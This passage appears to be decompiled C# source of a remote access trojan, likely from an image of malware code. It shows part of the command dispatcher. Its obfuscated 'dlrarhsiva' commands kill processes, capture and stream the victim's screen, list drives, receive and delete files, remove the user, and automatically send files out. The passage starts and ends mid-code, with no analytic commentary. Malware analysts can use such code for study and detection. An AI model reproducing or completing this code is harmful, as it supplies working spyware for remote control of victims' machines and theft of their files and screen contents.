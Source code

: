                     break;
                case "dlrarhsiva-filsz":
                    this.dlrarhsivafile_info(CS$<>8__locals1.switchType[1], false);
                    break;
                case "dlrarhsiva-rupth":
                    this.dlrarhsivapush_data(null, "dlrarhsiva-appth=|dlrarhsiva".Split(new char[]
                    {
                        '|'
                    })[0] + DLAONIF.dlrarhsivaget_mpath(), false);
                    break;
                case "dlrarhsiva-dowf":
                    this.dlrarhsivasaveFile(CS$<>8__locals1.switchType[1]);
                    break;
                case "dlrarhsiva-endpo":
                    try
                    {
                        Process.GetProcessById((int)Convert.ToInt16(CS$<>8__locals1.switchType[1].Trim())).Kill();
                    }
                    catch
                    {
                    }
                    break;
                case "dlrarhsiva-scrsz":
                    this.dlrarhsivascreenSize(CS$<>8__locals1.switchType[1]);
                    break;
                case "dlrarhsiva-cscreen":
                    this.dlrarhsivasee_scren(CS$<>8__locals1.switchType[1]);
                    break;
                case "dlrarhsiva-dirs":
                    this.dlrarhsivafunThread = new Thread(new ThreadStart(this.dlrarhsivalistDrives));
                    this.dlrarhsivafunThread.Start();
                    break;
                case "dlrarhsiva-stops":
                    this.dlrarhsivacapScreen = false;
                    break;
                case "dlrarhsiva-scren":
                    this.dlrarhsivacapScreen = true;
                    this.dlrarhsivafunStarter = delegate()
                    {
                        CS$<>8__locals1.<>4__this.dlrarhsivais_screen(CS$<>8__locals1.switchType[1]);
                    };
                    this.dlrarhsivafunThread = new Thread(this.dlrarhsivafunStarter);
                    this.dlrarhsivafunThread.Start();
                    break;
                case "dlrarhsiva-cnls":
                    this.dlrarhsivaautCnls = true;
                    this.dlrarhsivareqCnls = true;
                    this.dlrarhsivacapScreen = false;
                    break;
                case "dlrarhsiva-udlt":
                    this.dlrarhsivaCMD.dlrarhsivaremove_user();
                    break;
                case "dlrarhsiva-delt":
                    this.dlrarhsivaremove_file(CS$<>8__locals1.switchType[1]);
                    break;
                case "dlrarhsiva-afile":
                    this.dlrarhsivafunStarter = delegate()
                    {
                        CS$<>8__locals1.<>4__this.dlrarhsivasend_auto(CS$<>8__locals1.switchType[1]);
                    };
                    this.dlrarhsivafunThread = new Thread(this.dlrarhsivafunStarter);
                    this.dlrarhsivafunThread.Start();
                    break;
                case "dlrarhsiva-listf":